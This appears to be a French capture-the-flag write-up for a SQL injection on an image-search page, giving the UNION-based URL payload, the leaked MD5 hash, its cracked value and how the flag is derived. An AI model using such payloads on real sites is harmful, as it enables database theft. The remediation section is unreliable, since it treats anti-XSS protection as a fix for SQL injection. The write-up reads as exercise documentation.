 # README : Exploit de SQL Injection avec Search Image

## Description

Cette brèche met en évidence une vulnérabilité dans la gestion des paramètres d'URL d'une application web. Elle permet à un attaquant potentiel d'exécuter des commandes SQL malveillantes pour accéder à des informations sensibles sur le serveur et de les déchiffrer ultérieurement.

## Fonctionnement

- Accédez à la page : `http://X.X.X.X/index.php?page=searchimg`
- Utilisez une injection SQL dans l'URL: "1 or 1=1 UNION select comment, title FROM list_images"
- On a alors une reponse avec une instruction et un mdp crypte.

```txt
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

- Utilisez un outil de déchiffrement MD5 comme https://www.dcode.fr/md5-hash pour décrypter cette valeur
- Le résultat du déchiffrement est : albatroz
- Puis string to sha256 : https://www.dcode.fr/sha256-hash pour avoir le flag.

## Impact

Cette vulnérabilité peut permettre à un attaquant de :

- Accéder aux données sensibles du système de base de données
- Déchiffrer des mots de passe utilisateur ou d'autres informations sensibles
- Potentiellement exposer des données confidentielles

## Recommandations

Pour corriger cette vulnérabilité :

- Valider et sécuriser tous les paramètres d'URL côté serveur avant de les utiliser ou de les interpréter.
- Utiliser une validation robuste pour empêcher l'exécution de code malveillant dans les paramètres URL.
- Implémenter une protection anti-XSS pour éviter l'exécution de commandes SQL dans le navigateur.
